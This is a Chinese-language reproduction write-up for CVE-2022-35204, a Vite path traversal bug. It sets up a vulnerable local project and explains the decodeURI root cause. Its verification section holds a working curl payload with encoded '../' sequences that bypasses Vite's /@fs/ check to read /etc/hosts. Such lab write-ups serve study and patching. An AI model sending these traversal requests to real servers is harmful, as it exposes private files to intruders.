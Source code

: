 ```yaml
---
title: CVE-2022-35204
---
```


# CVE-2022-35204

<vue-metadata author="swwind" time="2023-6-12"></vue-metadata>

Vite 是 Vite 开源的一种新型的前端构建工具。

Vite v2.9.13 之前版本存在安全漏洞，该漏洞源于允许攻击者通过精心设计的 URL 对受害者的服务执行目录遍历。

## 漏洞详情信息表

|  漏洞名称  |   Vite 路径遍历漏洞    |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202208-3372    |
|  CVE 编号  | [CVE-2022-35204][nist] |
|    厂商    |          Vite          |
|  危害等级  |          低危          |
|  漏洞类型  |        路径遍历        |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- vite v2.9.12

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2022-35204` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add vite@2.9.12` 安装带有缺陷的 vite 版本。

## 漏洞测试或验证详细步骤

### 编写代码

创建 `index.html`，简单写入任意 HTML 页面，如下样例。

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Vite</title>
  </head>
  <body>
    There is nothing to observe
  </body>
</html>
```

### 运行程序

使用 `yarn vite dev` 开启 vite 开发模式服务器，可以看到程序默认监听了 `localhost:3000` 地址端口。

![](/assets/exploits/figure2/fig1.png)

访问 `http://localhost:3000` 可以看到我们在 `index.html` 中编写的内容。

![](/assets/exploits/figure2/fig2.png)

### 验证漏洞

vite 默认启用的 `/@fs/` 路由用于访问任意本地文件，但是只限于项目仓库目录下的文件。

例如我们构造一个请求 URL 形如 `http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html`，这个 URL 指向的是我们方才创建的 `index.html`，并且在项目的目录下，因此可以正常访问。我们使用 curl 测试这个路径的访问情况。

```bash
curl http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html
```

程序输出如下

![](/assets/exploits/figure2/fig3.png)

我们尝试访问一个不在项目路径下的文件，例如 `/etc/hosts` 文件，可以看到 vite 拒绝了我们的请求。

```bash
curl http://localhost:3000/@fs/etc/hosts
```

![](/assets/exploits/figure2/fig4.png)

漏洞的关键在于，我们可以使用 `%2e%2e%2f`（经过 `encodeURIComponent` 之后的 `../`）来索引到父级目录，从而绕过 vite 的路径验证。

值得注意的是使用 curl 必须要带上 `--path-as-is` 参数，防止 curl 自己展开 `../`。

```curl
curl --path-as-is http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts
```

![](/assets/exploits/figure2/fig5.png)

可以看到成功绕过了 vite 的路径检测，成功访问到了系统中的任意文件。

### 漏洞分析

漏洞出现的原因在于 vite 错误地使用了 `decodeURI` 函数来对输入的参数进行反序列化。

![](/assets/exploits/figure2/fig6.png)

`decodeURI` 函数在解码时会将大部分 ASCII 标点符号和预留字符保留不变，包括 `/`（斜杠）和 `%2f`（斜杠的编码形式）。

相比之下，`decodeURIComponent` 函数仅解码 URI 组件中的字符，而不是完整的 URI。它可以正确解码任何 ASCII 字符或 UTF-8 字符集，包括默认 URI 编码中使用的所有预留字符和其他特殊字符。因此，在处理普通的、标准的或非标准的 URI 时，`decodeURIComponent` 函数通常是更安全和可靠的选择。

在这个漏洞的情形下，当传入的参数是 `/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts` 的时候，`decodeURI` 函数解析出来的结果会保留其中的所有 `%2f`，再经由下一步的 `path.resolve` 函数解析，最终结果是 `/home/swwind/tmp/cve/CVE-2022-35204/..%2f..%2f..%2f..%2f../etc/hosts`，由此非常轻松地就绕过了 vite 的允许目录检查。

相比之下，如果使用了安全的 `decodeURIComponent` 函数，那么第一步解析出来的结果就会是 `/home/swwind/tmp/cve/CVE-2022-35204/../../../../../etc/hosts`，经过第二步 `path.resolve` 解析之后的结果将会是 `/etc/hosts`，从而有效防止此类攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2022-35204
